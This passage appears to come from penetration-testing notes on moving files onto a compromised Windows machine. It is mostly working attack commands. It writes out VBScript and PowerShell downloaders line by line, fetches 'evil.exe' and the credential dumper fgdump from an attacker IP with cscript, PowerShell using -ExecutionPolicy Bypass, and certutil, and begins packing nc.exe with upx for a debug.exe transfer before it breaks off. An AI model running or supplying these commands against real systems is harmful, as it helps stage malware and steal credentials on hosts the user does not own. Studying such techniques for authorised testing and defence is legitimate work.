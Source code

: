 ```vb
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

Then to execute the script wget.vbs script:

```
cscript wget.vbs http://10.11.0.219/evil.exe evil.exe
```

Powershell script that acts like wget:

```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.11.0.219/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

To execute the wget.ps1 file:

```
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

File transfer using `certutil.exe`:

```
certutil.exe -urlcache -split -f "http://10.11.0.219/fgdump.exe" fgdump.exe
```

`Debug.exe` is an assembler, disassembler, and hex dumping tool:

1.	```
	locate nc.exe|grep binaries
	```

2.	```
	cp /usr/share/windows-binaries/nc.exe .
	```

3. 	```
	ls -l nc.exe
	```

4. 	```
	upx -9 nc.exe - upx compacts the file size
	```
